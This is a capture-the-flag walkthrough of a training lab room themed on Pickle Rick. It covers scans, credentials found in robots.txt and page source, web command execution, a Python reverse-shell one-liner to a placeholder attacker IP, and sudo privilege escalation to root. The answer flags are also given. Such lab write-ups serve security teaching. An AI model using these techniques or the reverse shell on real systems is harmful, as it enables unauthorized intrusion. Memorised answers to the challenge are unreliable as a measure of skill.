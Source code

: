 # Pickle Rick

||daddy||

```json
export ip=10.10.58.138
```

```
first step is to always run the nmap scans
```
```json
nmap -p 0-9999 -oN scans/nmap_high_ports $ip
nmap -sC -sV -oN scans/nmap_normal $ip
```
```
looks like we have apache [80](webserver), ftp [21] and ssh [2222]running
```
```
we can see theres a robots.txt file which contains
"Wubbalubbadubdub" possibly a password?
```
```
always run gobuster after seeing apache is running and open
```

```json
gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt +x php,sh,txt,cgi,html,js,css,py
```

```
if we view the page source of the webserver we can see rick has left a username for us
"Note to self, remember username!

    Username: R1ckRul3s"
```
```
if we go to /login.php we can try the username and password we possibly found
great it worked and it looks like we can execute commands from here
```
```
if we run ls we get 
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

and it seems using cat is disabled
we need to find a way around that
lets try using "nl Sup3rS3cretPickl3Ingred.txt"
"mr. meeseek hair"
perfect
```
# 1. What is the first ingredient Rick needs?
```
answer: mr. meeseek hair 
```
```
lets see what clue.txt is
"Look around the file system for the other ingredient."
it looks like we can only run one liners however using the ; sign we can run multiple commands in one line

if we view the page source it looks like we have a base64 encoded string lets decode it
nothing useful there either
```
```
suppose we should try getting a shell however netcat is disabled
python on the other hand is working so lets get a python reverse shell
```
```json
export RHOST="YOUR_IP";export RPORT=YOUR_PORT;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

nc -lvnp YOUR_PORT (listener)
```
```
we now have a shell lets go look around
if we go to /home/rick and cat "second ingredient"
we find our second ingredient 
"1 jerry tear"
```
# 2. What is the second ingredient Rick needs?
```
answer: 1 jerry tear
```
```
im going to assume the last ingredient is probably in /root or needs root access so lets upgrade our shell so we can privesc to root
```
```json
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z 
stty raw -echo
fg
```
always the first thing to do when your looking to privesc is to run sudo -l
in this cane we can sudo without a password on everything
so lets try running sudo "/bin/bash"
```
```
great we are now root! we can see that with id, whoami etc
so lets look around for the final ingredient
```
```
the final ingredient is /root/3rd.txt which we can use cat or nl to see what it is
1 fleeb juice
```
```
# 3. What is the third ingredient Rick needs?
```
answer: 1 fleeb juice
```

```json
Congratulations on completeing the room !
```
